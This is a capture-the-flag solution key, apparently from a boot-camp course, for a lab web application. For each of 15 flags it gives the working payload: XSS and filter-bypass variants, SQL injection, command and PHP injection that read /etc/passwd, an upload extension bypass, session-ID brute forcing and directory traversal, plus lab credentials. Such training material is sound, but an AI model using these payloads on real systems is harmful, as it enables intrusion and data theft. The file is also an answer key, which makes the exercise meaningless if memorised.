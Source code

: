 ## Day 1 Solution File: Attacking the Web Application CTF

### Flag Solutions

#### Flag 1: f76sdfkg6sjf
- **Location:** `Welcome.php`
- **Vulnerability:** XSS reflected
- **Method/Payload to Exploit:** <script>alert("hi")</script>


#### Flag 2: ksdnd99dkas
- **Location:** `Memory-Planner.php` (first field)
- **Vulnerability:** XSS reflected (advanced)
- **Method/Payload to Exploit:** The input validation removes the word "script," so the word "script" needs to be split up in the payload (e.g., `<SCRIPscriptT>alert("hi")</SCRIPscripTt>`)

#### Flag 3: sd7fk1nctx
- **Location:** `comments.php`
- **Vulnerability:** XSS Stored
- **Method/Payload to Exploit:** <script>alert("hi")</script>

#### Flag 4: nckd97dk6sh2
- **Location:** `About-Rekall.php`
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** The flag appears in the HTTP response headers. These headers can be seen using BURP or via a cURL request, such as:
   - `curl -v http://192.168.14.35/About-Rekall.php`

#### Flag 5: mmssdi73g
- **Location:** `Memory-Planner.php` (second field)
- **Vulnerability:** Local file inclusion
- **Method/Payload to Exploit:** Uploading any PHP file will provide the flag.


#### Flag 6: ld8skd62hdd
- **Location:** `Memory-Planner.php` (third field)
- **Vulnerability:** Local file inclusion (advanced)
- **Method/Payload to Exploit:** The input validation checks for the presence of `.jpg`, so to bypass this upload, name your malicious script with this name: `script.jpg.php`.


#### Flag 7: bcs92sjsk233 
- **Location:** `Login.php` (first field)
- **Vulnerability:** SQL injection
- **Method/Payload to Exploit:**  In the password field, use the following payload: `ok' or 1=1-- `.

#### Flag 8: 87fsdkf6djf
- **Location:** `Login.php` (second field)
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** The username and password are in the HTML, or you can view them by highlighting the web page.
  - Username: `dougquaid`
  - Password: `kuato`


#### Flag 9: dkkdudfkdy23
- **Location:** `robots.txt`
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** Just access the web page.


#### Flag 10: ksdnd99dkas 
- **Location:** `networking.php` (first field)
- **Vulnerability:** Command injection
- **Method/Payload to Exploit:**  `www.welcometorecall.com && cat vendors.txt` or `www.welcometorecall.com ; cat vendors.txt`


#### Flag 11: opshdkasy78s
- **Location:** `networking.php` (second field)
- **Vulnerability:** Command injection (advanced)
- **Method/Payload to Exploit:** Input validation strips `&` and `;` so the payload will need to be `www.welcometorecall.com | cat vendors.txt`.

#### Flag 12: hsk23oncsd 
- **Location:** `Login.php` (second field)
- **Vulnerability:** Brute force attack
- **Method/Payload to Exploit:** Using the vulnerability in Flag 10 or 11 and viewing the `/etc/passwd` file, you'll see a user `melina`. This user has the same password: `melina`.


#### Flag 13: jdka7sk23dd
- **Location:** `souvenirs.php`
- **Vulnerability:** PHP injection
- **Method/Payload to Exploit:** This hidden web page was identified in the `robots.txt` file found in Flag 9. The payload to exploit this page is changing the URL to `http://192.168.13.35/souvenirs.php?message=""; system('cat /etc/passwd')` OR `http://192.168.13.35/souvenirs.php?message=%22%22;%20passthru(%27cat%20/etc/passwd%27)`.


#### Flag 14: dks93jdlsd7dj 
- **Location:** `admin_legal_data.php`
- **Vulnerability:** Session management 
- **Method/Payload to Exploit:** The link to this page is provided when Flag 12 is acquired. To view the flag, you will need to test out different session IDs in the URL with Burp. (Intruder would be the most efficient.) **87** is the secret session ID that provides the flag (http://192.168.13.35/admin_legal_data.php?admin=87).


#### Flag 15: dksdf7sjd5sg
- **Location:** `Disclaimer.php`
- **Vulnerability:** Directory traversal
- **Method/Payload to Exploit:** The hint on this page indicates this is the "new" disclaimer. Using the vulnerability from Flag 10 or Flag 11, you can run `ls` to see the `old_disclaimers` directory. Using that finding, change the URL to: `http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt`.
  - Note that the resource changed from `disclaimer_2.txt` to `disclaimer_1.txt`, as this is the older version.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.